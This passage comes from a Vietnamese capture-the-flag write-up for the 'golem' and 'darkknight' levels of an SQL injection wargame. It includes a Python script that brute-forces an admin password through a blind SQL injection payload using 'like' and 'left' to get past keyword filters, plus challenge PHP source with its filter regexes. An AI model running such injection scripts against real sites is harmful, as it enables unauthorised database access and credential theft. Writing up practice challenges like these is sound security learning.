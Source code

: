 ```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

filter: `_ . () or and substr =`

Tiếp tục là brute force password thôi ta sẽ làm như các câu bf trên nhưng ta thay '=' thành 'like' còn 'substring' = 'left' nên ta sẽ có payload như sau

```python
import requests
import string
# len pw = 9
url = 'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,20):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = "pw= 1'|| true %26%26 left(pw,{}) like '{}'-- -".format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#77d6290b
```

## DARKKNIGHT

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
